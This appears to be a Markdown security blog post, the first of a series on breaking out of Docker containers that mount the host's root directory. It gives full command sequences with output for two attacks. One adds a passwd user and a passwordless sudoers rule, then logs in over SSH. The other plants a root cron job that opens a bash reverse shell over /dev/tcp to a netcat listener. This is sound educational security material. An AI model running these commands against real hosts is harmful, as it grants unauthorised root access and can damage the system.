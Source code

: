 ```yaml
---
title: "Container Breakouts – Part 1: Access to root directory of the Host"
date: 2020-07-15T08:39:10+02:00
draft: false
tags:
- docker
- breakout
- security
---
```


This post is part of a series and shows container breakout techniques that can be performed if a container is started with access to the host root directory.

<!--more-->

The following posts will be part of the series:
- Part 1: Access to root directory of the Host
- Part 2: Privileged Container
- Part 3: Docker Socket

<!--
The following posts are part of the series:
- Part 1: Access to root directory of the Host
- [Part 2: Privileged Container](../container-breakouts-part2)
- [Part 3: Docker Socket](../container-breakouts-part3)
-->
## Intro

The **motivation** of this post is to **collect container breakouts**. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

I also realized during writing that the post must be sliced into more digestible pieces. 

The **first post** is **about** what could probably go wrong if the **host root directory** is **accessible** from the container. Due to the fact that we have only access to the disc, this approach is absolutely not an OpSec-safe approach to escalate your privileges. 

The proposed techniques use Unix operating system features that are more system security related, then container security related. But, as part of a comprehensive series it has to take place to show the importance.

## Shared Host root directory

Access to a container that shares directories with the host is **not** an **immediate problem**. **But** if the container has **access to** the **host root directory** as user `root` (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you hit the jack pot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer** group. After the user is created, we connect via **SSH** to the host. Admittedly, it is a kind of constructed, because certain packages must have been installed and services running, but you get the idea.

Here are all steps that must be performed (we start in the container).


```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2

# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

For this scenario, the SSH daemon is running on the host, the configuration is not hardened and the `sudo` package is installed. The sudo step can be exchanged by creating another user with `uid=0(root)`. Another option would be the creation of SSH keys for existing users.

### Cronjob

Due to the fact that in a default setup the container is **direct connected to the host**, we can initiate not only connections from the container to the host, also vice-versa. To do so, we need the IP address from the container. Depending on the binaries that are available on the host, we initiate a **reverse shell by** a **cronjob** that connects to an exposed port on the container. In this showcase, we use `bash` for the reverse connection and `netcat` to handle the connection in the container. The following line is all we need:

```
* * * * * root bash -i >& /dev/tcp/$CONTAINER_IP/$CONTAINER_PORT 0>&1
```

The **cronjob** is executed **every minute** as user `root` on the host. So, as soon as the cronjob gets trigger, we are getting **root access to** the **host** system. 

Here are all steps that must be performed (we start in the container).

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 

## Conclusion

Both examples are approaches to get direct access to host system. They are modifying the host and **absolutely not minimal-inversive or OpSec-safe**. If you **make mistakes**, you may mix up the configuration of the **host system** and **crash** it. **Be careful !!**

Furthermore, the proposed techniques are possible approaches to escape out of a container if one has access to the host root directory. By the nature of this attack vector, it is more a general Unix privileges escalation technique, then a dedicated container breakout.

I may update the list from time-to-time. If you have important approaches that you think they should be listed, do not hesitate and get in touch.

If you are interested in further, less riotous techniques stay tuned for the next post _**Container Breakouts – Part 2: Privileged Container**_.
<!--
If you are interested in further, less riotous techniques continue with the next post [Container Breakouts – Part 2: Privileged Container](../container-breakouts-part2).
-->



